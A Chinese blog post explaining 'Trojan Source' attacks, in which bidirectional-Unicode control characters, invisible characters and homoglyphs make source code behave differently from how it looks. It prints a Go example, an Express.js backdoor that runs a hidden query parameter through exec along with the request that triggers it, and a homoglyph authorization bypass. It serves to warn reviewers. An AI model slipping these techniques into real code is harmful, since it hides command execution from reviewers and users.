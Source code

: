 # 源代码特洛伊木马攻击
>date: 2021-11-19T17:02:46+08:00


![](/assets/images/coolshell.cn/wp-content/uploads/2021/11/il_340x270_pggv.jpg)最近，我们在 Github 的 Code Review 中看到 Github 开始出现下面这个 Warning 信息—— “This file contains bidirectional Unicode text that may be interpreted or compiled differently than what appears below.”也就是说我们的代码中有一些 bidirectional unicode 的文本，中文直译作 “双向文本”，意思是一些语言是从左到右的，而另一些则是是从右到左的（如：阿拉伯语），如果同一个文件里，即有从左向右的文本也有从右向左文本两种的混搭，那么，就叫bi-direction。术语通常缩写为“ **BiDi** ”或“ **bidi** ”。使用双向文本对于中国人来说并不陌生，因为中文又可以从左到右，也可以从右到左，还可以从上到下。


![](/assets/images/coolshell.cn/wp-content/uploads/2021/11/1637305049427-1024x329.jpg)


早期的计算机仅设计为基于拉丁字母的从左到右的方式。添加新的字符集和字符编码使许多其他从左到右的脚本能够得到支持，但不容易支持从右到左的脚本，例如阿拉伯语或希伯来语，并且将两者混合使用更是不可能。从右到左的脚本是通过[ISO/IEC 8859-6](https://en.wikipedia.org/wiki/ISO/IEC_8859-6 "ISO/IEC 8859-6")和[ISO/IEC 8859-8](https://en.wikipedia.org/wiki/ISO/IEC_8859-8 "ISO/IEC 8859-8")等编码引入的，通常以书写和阅读顺序存储字母。可以简单地将从左到右的显示顺序翻转为从右到左的显示顺序，但这样做会牺牲正确显示从左到右脚本的能力。通过双向文本支持，可以在同一页面上混合来自不同脚本的字符，而不管书写方向如何。



双向文本支持是计算机系统正确显示双向文本的能力。对于Unicode来说，其标准为完整的 BiDi 支持提供了基础，其中包含有关如何编码和显示从左到右和从右到左脚本的混合的详细规则。你可以使用一些控制字符来帮助你完成双向文本的编排。


好的，科普完“双向文本”后，我们正式进入正题，为什么Github 会出这个警告？Github的官方博客“[关于双向Unicode的警告](https://github.blog/changelog/2021-10-31-warning-about-bidirectional-unicode-text/)”中说，使用一些Unicode中的用于控制的隐藏字符，可以让你代码有着跟看上去完全不一样的行为。


我们先来看一个示例，下面这段 Go 的代码就会把 “Hello, World”的每个字符转成整型，然后计算其中多少个为 1 的 bit。



```
package main

import "fmt"

func main() {
  str, mask := "Hello, World!‮10x‭", 0

  bits := 0
  for _, ch := range str {
    for ch > 0 {
      bits += int(ch) & mask
      ch = ch >> 1
    }
  }
  fmt.Println("Total bits set:", bits)
}
```

这个代码你看上去没有什么 奇怪的地方，但是你在执行的时候（可以直接上Go Playground上执行  –<https://play.golang.org/p/e2BDZvFlet0>），你会发现，结果是 0，也就是说“Hello, World”中没有值为 1 的 bit 位。这究竟发生了什么事？


如果你把上面这段代码拷贝粘贴到字符界面上的 vim 编辑器里，你就可以看到下面这一幕。


![](/assets/images/coolshell.cn/wp-content/uploads/2021/11/1637307319589.jpg)


其中有两个浅蓝色的尖括号的东西—— `<202e>` 和 `<202d>` 。这两个字符是两个Unicode的控制字符（注：完整的双向文本控制字符参看 [Unicode Bidirectional Classes](https://www.compart.com/en/unicode/bidiclass)）：


* **U+202E – Right-to-Left Override [RLO]**  

表示，开始从右到左显示，于是，接下来的文本 `10x", 0` 变成了 `0 ,"x01`
* **U+202D – Left-to-Right Override [LRO]**  

表示，开始从左到右显示，于是，`0,"x01` 中的前4个字符`0 ,"` 反转成  `", 0`，于是整个文本成了 `", 0x01`


所以，你在视觉上看到的是结果是—— `"Hello, World!”, 0x01`， 但是实际上是完全是另外一码事。


然后，Github官方博客中还给了一个安全问题 [CVE-2021-42574](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42574) ——



> 在 Unicode 规范到 14.0 的双向算法中发现了一个问题。它允许通过控制序列对字符进行视觉重新排序，可用于制作源代码，呈现与编译器和解释器执行逻辑完全不同的逻辑。攻击者可以利用这一点对接受 Unicode 的编译器的源代码进行编码，从而将目标漏洞引入人类审查者不可见的地方。
> 
> 


这个安全问题在剑桥大学的这篇论文“[Some Vulnerabilities are Invisible](https://www.trojansource.codes/)”中有详细的描述。其中PDF版的文章中也给了这么一个示例：


通过双向文本可以把下面这段代码：


![](/assets/images/coolshell.cn/wp-content/uploads/2021/11/1637308872541.jpg)


伪装成下面的这个样子：


![](/assets/images/coolshell.cn/wp-content/uploads/2021/11/1637308847435.jpg)


在图 2 中`'alice'`被定义为价值 100，然后是一个从 Alice 中减去资金的函数。最后一行以 50 的值调用该函数，因此该小程序在执行时应该给我们 50 的结果。


然而，图 1 向我们展示了如何使用双向字符来破坏程序的意图：通过插入**RLI (Right To Left Isolate)***–* **U+2067***，*我们将文本方向从传统英语更改为从右到左。尽管我们使用了减去资金功能，但图 1 的输出变为 100。


除此之外，支持Unicode还可以出现很多其它的攻击，尤其是通过一些“不可见字符”，或是通过“同形字符”在源代码里面埋坑。比如文章“[The Invisible Javascript Backdoor](https://certitude.consulting/blog/en/invisible-backdoor/)”里的这个示例：



```
const express = require('express');
const util = require('util');
const exec = util.promisify(require('child_process').exec);

const app = express();

app.get('/network_health', async (req, res) => {
    const { timeout,ㅤ} = req.query;
    const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',ㅤ
    ];

    try {
        await Promise.all(checkCommands.map(cmd => 
                cmd && exec(cmd, { timeout: +timeout || 5_000 })));
        res.status(200);
        res.send('ok');
    } catch(e) {
        res.status(500);
        res.send('failed');
    }
});

app.listen(8080);
```

上面这个代码实现了一个非常简单的网络健康检查，HTTP会执行 `ping -c 1 google.com` 以及 `curl -s http://example.com` 这两个命令来查看网络是否正常。其中，可选输入 HTTP 参数`timeout`限制命令执行时间。


然后，上面这个代码是有不可见的Unicode 字符，如果你使用VSCode，把编码从 Unicode 改成 DOS (CP437) 后你就可以看到这个Unicode了


![](/assets/images/coolshell.cn/wp-content/uploads/2021/11/1637310735683-1024x923.jpg)


于是，一个你看不见的 `πàñ` 变量就这样生成了，你再仔细看一下整个逻辑，这个看不见的变量，可以让你的代码执行他想要的命令。因为，http 的请求中有第二个参数，这个参数可奖在后面被执行。于是我们可以构造如下的的 HTTP 请求：


**http://host:port/network\_health?%E3%85%A4=<any command>**


其中的，%E3%85%A4 就是 `\u3164` 这个不可见Unicode 的编码，于是，一个后门代码就这样在神不知鬼不觉的情况下注入了。


另外，还可以使用“同形字符”，看看下面这个示例：



```
if(environmentǃ=ENV_PROD){
    // bypass authZ checks in DEV
    return true;
}
```

如何你以为 `ǃ` 是 惊叹号，其实不是，它是一个Unicode `╟â`。这种东西就算你把你的源码转成 DOS(CP437) 也没用，因为用肉眼在一大堆正常的字符中找不正常的，我觉得是基本不可能的事。


现在，是时候检查一下你的代码有没有上述的这些情况了……


（全文完）


 


 


